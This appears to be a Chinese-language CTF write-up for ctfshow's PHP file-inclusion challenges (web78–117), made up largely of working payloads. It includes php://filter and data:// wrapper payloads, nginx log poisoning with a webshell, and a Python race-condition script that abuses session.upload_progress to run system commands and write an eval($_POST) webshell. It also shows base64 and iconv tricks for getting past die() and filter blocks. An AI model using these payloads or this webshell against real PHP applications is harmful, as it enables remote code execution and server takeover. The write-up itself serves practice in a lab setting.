



前言
主要考察是php伪协议，之前Rce里也有提过，这里放几个常用Payload
php://filter/read=convert.base64-encode/resource=index.php
data://text/plain;base64,xxxx(base64编码后的数据)
php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php
php://input
POST cmd
web78-117
web78(php)
签到
Payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php
web79(data)
$file = str_replace("php", "???", $file); 将php过滤，可以考虑data
Payload:
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs= PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
web80(nginx日志注入)
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file); data也被ban了
使用nginx日志文件包含，在User-Agent写入一句话木马，使用蚁剑连接https://xxx.ctfshow?file=/var/log/nginx getshell
Payload:
?file=/var/log/nginx/access.log
User-Agent:
看题解也可以大小写绕过用PHP://input
web81
多过滤了冒号，所以依旧可以nginx日志注入
web82(利用session.upload_progress进行文件包含)
利用session.upload_progress进行文件包含和反序列化渗透
if(isset($_GET['file'])){
$file = $_GET['file'];
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);
include($file);
}else{
highlight_file(__FILE__);
}如果session.auto_start=On ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get(“session.upload_progress.prefix”)+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。
但是问题来了，默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容立即清空，
此时我们可以利用竞争，在session文件内容清空前进行包含利用。
session文件默认存储路径
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
方法一:
先以POST的形式发包，上传的文件随意,下面是构造的上传表单
<!DOCTYPE html>
<html>
<body>
<form action="http://79b5dbc7-b641-4e30-b8d9-4278f2234938.chall.ctf.show/" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
使用burp进行爆破（两个要同时爆破）


最后竞争得到flag
方法二:
可以利用脚本进行条件竞争
import io
import sys
import requests
import threading
sessid = 'Qftm'
url = 'https://2fdf78b8-ded3-49bb-8ebc-1bc7fac6b480.challenge.ctf.show/'
def POST(session):
while True:
f = io.BytesIO(b'a' * 1024 * 50)
session.post(
url,
data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
files={"file":('q.txt', f)},
cookies={'PHPSESSID':sessid}
)
def READ(session):
while True:
response = session.get(f'{url}?file=/tmp/sess_{sessid}')
if 'flag' not in response.text:
print('[+++]retry')
else:
print(response.text)
sys.exit(0)
with requests.session() as session:
t1 = threading.Thread(target=POST, args=(session, ))
t1.daemon = True
t1.start()
READ(session)
web83
条件竞争同上
web84
添加了如下代码
system(“rm -rf /tmp/*”);
// 在 rm -rf /tmp/* 执行之后立刻有新的请求创建了 sess_shell 文件 条件竞争依然有效
web85
添加了一个内容识别，如果有<就die，依旧可以竞争。
web86
dirname(FILE)表示当前文件的绝对路径。set_include_path函数,是用来设置include的路径的，就是include()可以不提供文件的完整路径了。
include文件时,当包含路径既不是相对路径，也不是绝对路径时(如:include(“test.php”))，会先查找include_path所设置的目录。
脚本里用的是完整路径，不影响竞争。
web87(file_put_contents)
if(isset($_GET['file'])){
$file = $_GET['file'];
$content = $_POST['content'];
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);
file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
}file_put_contents() 函数把一个字符串写入文件中。
参考大佬文章，可以使用base64或者rot13来进行对前面代码进行杂糅
首先构造$file，因为要对file进行一次url解码所以我们对payload进行两次url编码
晚上大多工具是对英文字符不进行url编码的，所以这里给出脚本方便进行urlencode
import urllib.parse
def encode_char(char):
# 指定字符集，转换为ASCII码后，再转换为16进制，并添加%
special_chars = "!#$&'()*+,/:;=?@-._~0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
if char in special_chars:
# 转换为ASCII码，然后转换为16进制，并添加%
return '%{:02x}'.format(ord(char))
else:
# 对其他字符进行URL编码
return urllib.parse.quote(char)
def url_encode(input_string):
# 对字符串中的每个字符进行编码
return ''.join(encode_char(char) for char in input_string)
input_string = "Test"
encoded_string = url_encode(input_string)
print(encoded_string)
php://write=convert.base64-decode/resource=hsad.php
两次编码后得到
file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%38%25%37%33%25%36%31%25%36%34%25%32%65%25%37%30%25%36%38%25%37%30
然后进行Post content
base64可以绕过die函数。因为base64编码范围是 0 ～ 9,a ～ z,A ～ Z,+,/ ，所以除了这些字符，其他字符都会被忽略掉。
base64过滤之后就只有(phpdie)6个字符了，base64要求把每三个8Bit的字节转换为四个6Bit的字节，所以这里也要凑够四个字节的倍数，避免base64解码出问题，这里加上两个字符即可。
content=aaPD9waHAgc3lzdGVtKCJ0YWMgZmwwZy5waHAiKTs/Pg==
web88
发现过滤的还是比较多，但是没有过滤 : 那我们就可以使用PHP伪协议就是 这里使用的是 data://text/plain;base64,poc 其实和79差不多 只是注意的是编码成base64的时候要去掉 ＝
web116
访问网页给了视频，formost分解出来有图片是网站源码

然后直接访问flag.php就行，说实话有点懵，因为过滤挺狠的
web117
参考文章：
这道题过滤了rot13，base64，string等一些过滤器的内容，那换其他过滤器不就完事了。
这里我们用convert.iconv.*这个过滤器。
payload：
GET: ?file=php://filter/convert.iconv.ucs-2be.ucs-2le/resource=a.php
从
UCS-2LE编码转换为UCS-2BE编码POST: contents=?<hp pvela$(G_TE’[‘a)] ;>?